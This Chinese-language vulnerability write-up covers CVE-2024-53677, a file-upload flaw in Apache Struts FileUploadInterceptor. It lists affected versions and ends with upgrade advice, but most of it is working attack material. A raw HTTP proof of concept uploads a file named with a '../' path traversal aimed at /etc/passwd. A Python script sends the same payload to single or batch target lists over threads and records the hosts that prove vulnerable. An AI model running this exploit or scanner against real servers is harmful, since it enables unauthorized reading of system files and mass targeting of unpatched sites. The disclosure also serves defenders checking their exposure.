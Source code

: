 # 漏洞描述
<font style="color:rgb(52, 58, 64);">Apache Struts 是一个开源的、用于构建企业级Java Web应用的MVC框架。2024年12月，官方披露 CVE-2024-53677 Apache Struts FileUploadInterceptor 文件上传漏洞。在受影响版本中，若代码中使用了FileUploadInterceptor ，则可能在进行文件上传时攻击者可能上传文件至其他目录，在特定场景下可能造成代码执行。</font>

# <font style="color:rgb(52, 58, 64);">影响版本</font>
<font style="color:rgb(52, 58, 64);">Struts 2.0.0 - Struts 2.3.37</font>

<font style="color:rgb(52, 58, 64);">Struts 2.5.0- Struts 2.5.33</font>

<font style="color:rgb(52, 58, 64);">Struts 6.0.0- Struts 6.3.0.2</font>

# <font style="color:rgb(52, 58, 64);">披露时间</font>
<font style="color:rgb(33, 37, 41);">2024-12-12</font>

# <font style="color:rgb(33, 37, 41);">来源</font>
[https://avd.aliyun.com/detail?id=AVD-2024-53677&timestamp__1384=eqjx0DBi0Qi%3D0%3DdD%3DD%2FQnrWUCbeiKX5Qx](https://avd.aliyun.com/detail?id=AVD-2024-53677&timestamp__1384=eqjx0DBi0Qi%3D0%3DdD%3DD%2FQnrWUCbeiKX5Qx)

# <font style="color:rgb(33, 37, 41);">漏洞复现</font>

poc

```http
POST /upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Content-Length: 220
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXToNPRY2YGK82Cfc
Upgrade-Insecure-Requests: 1

------WebKitFormBoundaryXToNPRY2YGK82Cfc
Content-Disposition: form-data; name="file"; filename="../../../../../../../etc/passwd"
Content-Type: application/octet-stream

1
------WebKitFormBoundaryXToNPRY2YGK82Cfc--
```

# py脚本
```python
#coding:utf-8
import argparse
import requests
import re
import time
import random
import base64
import json
import concurrent.futures
import sys
import urllib.parse

# 禁用 SSL 警告
requests.packages.urllib3.disable_warnings()

timeout = 10  # 请求超时时间
# max_retries = 3  # 最大重试次数

def verify(url,proxies={}):
    if not url.startswith(('http://', 'https://')):
        # 如果没有，就添加 'http://'
        url = 'http://' + url
    result={}
    headers = {
        'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryXToNPRY2YGK82Cfc',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36',
        'Accept': 'text / html, application / xhtml + xml, application / xml;q = 0.9, image / avif, image / webp, image / apng, * / *;q = 0.8, application / signed - exchange;v = b3;q = 0.7',
        'Accept - Encoding': 'gzip, deflate, br',
        'Accept - Language': 'zh - CN, zh;q = 0.9',
        'Cache - Control': 'max - age = 0',
        'Upgrade - Insecure - Requests': '1'
    }
    data = """------WebKitFormBoundaryXToNPRY2YGK82Cfc
Content-Disposition: form-data; name="file"; filename="../../../../../../../etc/passwd"
Content-Type: application/octet-stream

1
------WebKitFormBoundaryXToNPRY2YGK82Cfc--"""

    vulnurl = url + "/upload"
    try:
        # 发送 POST 请求
        r = requests.post(vulnurl, headers=headers, data=data, verify=False, allow_redirects=False,timeout=timeout)
        if r.status_code == 200 and 'root:' in r.text:
            print('\033[1;31m' + '[+] Success ' + url + '\033[0m')
            with open('re.txt', 'a') as f:
                f.write(url + '\n')
        else:
            print("[-] No vulnerabilities found")
            return None

    except requests.exceptions.RequestException as e:
        print(e)
        # time.sleep(random.uniform(1, 3))  # 加长重试时间间隔


def pl(filename):
    try:
        with open(filename, 'r', encoding='utf-8') as f:
            urls = [line.strip() for line in f.readlines() if line.strip()]
        return urls
    except Exception as e:
        print(f"[-] Error reading file {filename}: {e}")
        return []

def help():
    # helpinfo = """ """
    # print(helpinfo)
    print("CVE-2024-53677".center(100, '*'))
    print(f"[+]{sys.argv[0]} -u --url http://www.xxx.com 即可进行单个漏洞检测")
    print(f"[+]{sys.argv[0]} -f --file targetUrl.txt 即可对选中文档中的网址进行批量检测")
    print(f"[+]{sys.argv[0]} -t --thread 线程设置，默认为10")
    print(f"[+]{sys.argv[0]} -p --proxies 代理设置")
    print(f"[+]{sys.argv[0]} -h --help 查看更多详细帮助信息")
    print("--@ztomato".rjust(100," "))

def main():
    parser = argparse.ArgumentParser(description='@ztomato')
    parser.add_argument('-u','--url', type=str, help='单个漏洞网址')
    parser.add_argument('-f','--file', type=str, help='批量检测文本')
    parser.add_argument('-t','--thread',type=int, help='线程，默认为10')
    parser.add_argument('-p', '--proxies', type=str, help='代理设置，如 http://127.0.0.1:8080')
    args = parser.parse_args()

    proxies = {}
    if args.proxies:
        proxies = {'http': args.proxies, 'https': args.proxies}

    if args.url:
        verify(args.url, proxies=proxies)
    elif args.file:
        urls = pl(args.file)
        if not urls:
            print(f"[-] No valid URLs found in {args.file}")
            return

        thread = 10
        if args.thread:
            thread = args.thread
        with concurrent.futures.ThreadPoolExecutor(max_workers=thread) as executor:
            # 使用 executor.map 实现并发调用
            results = list(executor.map(lambda url: verify(url, proxies=proxies), urls))
            # 可选：打印结果
            # for result in results:
            #     if result and result.get('isVul'):
            #         print(f"[+] Vulnerability confirmed for {result['url']}")
    else:
        help()

if __name__ == '__main__':
    main()
```

# <font style="color:rgb(52, 58, 64);">修复建议</font>
<font style="color:rgb(52, 58, 64);">1、升级组件 Apache Struts 升级至 6.4.0 及以上版本。</font>  
<font style="color:rgb(52, 58, 64);">2、自行排查代码中是否使用 FileUploadInterceptor，若无使用则不受该漏洞影响。</font>

